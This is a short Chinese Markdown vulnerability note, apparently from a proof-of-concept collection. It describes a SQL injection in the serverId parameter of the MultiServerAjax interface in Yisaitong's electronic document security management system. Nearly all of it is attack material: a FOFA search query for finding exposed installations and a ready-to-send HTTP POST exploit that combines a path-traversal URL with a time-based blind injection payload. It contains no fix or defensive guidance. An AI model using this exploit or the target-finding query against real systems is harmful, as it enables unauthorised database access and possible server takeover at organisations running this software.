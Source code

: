 # 亿赛通电子文档安全管理系统MultiServerAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` MultiServerAjax`接口的`serverId`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```javascript
POST /CDGServer3/js/../MultiServerAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delServer&serverId=-1'waitfor delay '0:0:5'--
```

